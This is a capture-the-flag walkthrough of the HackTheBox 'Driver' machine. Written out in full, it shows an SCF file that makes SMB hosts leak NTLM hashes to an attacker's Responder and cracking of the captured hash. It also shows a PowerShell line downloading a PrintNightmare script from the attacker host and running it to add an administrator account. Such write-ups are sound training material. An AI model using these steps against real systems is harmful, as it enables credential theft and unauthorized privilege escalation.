


# Driver - HackTheBox - Writeup
Windows, 20 Base Points, Easy

## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```21```, ```135```,```445``` and ```5985```.

***User***: Found ```admin:admin``` credentials for port ```80```, Using [smb-share-scf-file-attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/), Getting the user NTLM hash using ```responder``` and we get the credentials of ```tony``` user.

***Root***: By running ```Get-Service -Name "spooler"``` we can see that print spooler service is running - Using [PrintNightmare](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) to get privilege escalation by creating a new user on administrator group. 


## Driver Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Driver]
└──╼ $ nmap -sV -sC -oA nmap/Driver 10.129.214.223
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-04 23:47 IDT
Nmap scan report for 10.129.214.223
Host is up (0.16s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m51s, deviation: 0s, median: 7h00m50s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-05T03:49:02
|_  start_date: 2021-10-05T01:48:09
5985/tcp open  wsman

```

By observing port 80 we get the following web page:


As we can see It's ```MFP Firmware Update Center```.
We are able to login using ```admin:admin``` credentials:



By clicking on [Firmware Updates](http://10.10.11.106/fw_up.php) we get the following page:



As we can read:
>Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon. 

It means that when we upload a file the testing team will test that file.

The first thing I have been tried to upload is ```exe``` file, But the testers team probably did not click on ```exe``` file.

If they are not clicked on ```exe``` file we can try to steal the tester credentials by the following article: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).

Let's create ```scf``` file which points to our SMB server (which was created by ```Responder```), The ```scf``` file contains:
```json
[Shell]
Command=2
IconFile=\\10.10.14.14\test.ico
[Taskbar]
Command=ToggleDesktop
```

Start responder:
```console
┌─[evyatar@parrot]─[/hackthebox/Driver]
└──╼ $ sudo responder -I tun0
[sudo] password for user: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.0.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
....
```

Upload the file and we get the following request on ```Responder```:
```console
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:82149bc3d263bd9e:267C5C286CFFB3C464B089FA27D8F626:0101000000000000C0653150DE09D201D10409C5AD7C40B1000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D201060004000200000008003000300000000000000000000000002000000A96758F0C12A1A7D36DDF6C99FF4FABAE06427D8926E2B818CC7522561CCB630A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003600000000000000000000000000

```

By cracking the hash using ```john``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Driver]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2021-10-16 23:48) 5.000g/s 163840p/s 163840c/s 163840C/s zombies..dyesebel
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Now, Using those creds ```tony:liltony``` we can use [evil-winrm](https://github.com/Hackplayers/evil-winrm):
```console
┌─[evyatar@parrot]─[/hackthebox/Driver]
└──╼ $ evil-winrm -i 10.10.11.106 -u tony -p 'liltony' 

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

dir
*Evil-WinRM* PS C:\Users\tony\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
90eef4470e629b603da63e8c8cceec54

```

And we get the user flag ```90eef4470e629b603da63e8c8cceec54```.

### Root

According to the machine portal hints, Let's check if we can use [CVE-2021-1675](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) which is critical remote code execution and local privilege escalation vulnerability dubbed ```PrintNightmare```.

First, Let's check if the printer ```spooler``` service is running on the system or not using ```Get-Service -Name “spooler”```:
```console
*Evil-WinRM* PS C:\Users\tony\Documents> Get-Service -Name “spooler”

Status   Name               DisplayName
------   ----               -----------
Running  spooler            Print Spooler

```

The print spooler service is running, Let's try to exploit it.

Let's download the follwing powershell script [https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1](https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1) to the machine:
```console
*Evil-WinRM* PS C:\Users\tony\Documents> (New-Object Net.WebClient).DownloadFile("http://10.10.14.14:8000/printnightmare.ps1","C:\Users\tony\Documents\printnightmare.ps1");

```

Now, When we are trying to use ```Import-Module``` command with the PowerShell script we get the following error:
```console
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\printnightmare.ps1
File C:\Users\tony\Documents\printnightmare.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\printnightmare.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand

```

We can solve it but running [meterpreter-new-windows-powershell-extension](https://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension), When we have a new ```meterpreter``` shell we can run ```load powershell``` command:
```console
meterpreter > load powershell
Loading extension powershell...Success.
```

Now, Let's load the script:
```console
meterpreter > powershell_import printnightmare.ps1
[+] File successfully imported. No result was returned.

```

Once the Powershell module is imported, We can execute the script with the following command:
```powershell
Invoke-Nightmare -NewUser "evyatar9" -NewPassword "P@ssw0rd"
```

This command will create a new user with administrator privileges.

Let's try it:
```powershell
meterpreter > powershell_shell
PS > Import-Module .\printnightmare.ps1
PS > Invoke-Nightmare -NewUser "evyatar9" -NewPassword "P@ssw0rd"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user evyatar9 as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```

As we can see the existence of a new user named ```evyatar9``` which we created.

Now, let’s check the privileges of this user.

```powershell
PS > net user evyatar9
User name                    evyatar9
Full Name                    evyatar9
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/28/2021 10:25:19 PM
Password expires             Never
Password changeable          10/28/2021 10:25:19 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

As we can see, the new user we created belongs to the local administrator's group.

Let's try to login using this user:
```console
┌─[evyatar@parrot]─[/hackthebox/Driver]
└──╼ $ evil-winrm -i 10.10.11.106 -u evyatar9 -p 'P@ssw0rd' 
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\evyatar9\Documents> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/28/2021   9:16 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
8527a1e25a7af7e4ae6317aaaf4a4c27
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```

And we get the root flag ```8527a1e25a7af7e4ae6317aaaf4a4c27```.